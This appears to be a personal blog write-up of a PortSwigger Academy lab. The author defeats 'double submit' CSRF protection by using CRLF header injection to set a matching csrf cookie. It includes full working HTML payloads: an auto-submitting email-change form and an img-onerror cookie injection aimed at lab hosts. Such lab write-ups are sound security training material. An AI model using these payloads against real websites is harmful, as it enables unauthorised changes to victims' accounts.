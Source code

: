 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-03T15:22:00Z
modDatetime: 2024-10-03T09:12:47.400Z
title: CSRF where token is duplicated in cookie
slug: csrf-portswigger-lab-4
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials `wiener:peter`    
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login using the credentials `wiener:peter` provided in the lab objective and now I've updated the email.. Intercepted the request and looking into the request.. we have CSRF token in two places.. One in the header under cookies and another one in the POST body as a parameter 

![](../../assets/images/bscp/csrf/csrf-13.png) 

I've updated one of the csrf token kinda just changed the last value on `csrf` inside the `Cookie:` and as a response says that `CSRF token is invalid`

Found that when we both values of the CSRF token are same and then request passes through 

![](../../assets/images/bscp/csrf/csrf-15.png) 

Let's generate the CSRF POC and keep that aside.. because we have a way to manipulate the body params `csrf` value.. But we need to find a way to inject the values of csrf inside the Cookie

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa900f504b8b225811be8b8001400c9.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

We have identified a crlf vulnerability in the home page search functionality and may able to inject the custom values for `csrf` inside `Cookie`

![](../../assets/images/bscp/csrf/csrf-16.png) 

Let's make the search request as an `<img src>` and replace it with `<script>` in the previously generated POC 

```html
<img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=nithisshtest%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```

Here is how the complete payload looks like 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="same" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a1400b804fc91fb805c6c99001600a3.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=same%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

This Should solve the lab but the portswigger didn't mark it as solved.. but after a decade, It marked as solved 

![](../../assets/images/bscp/csrf/csrf-17.png) 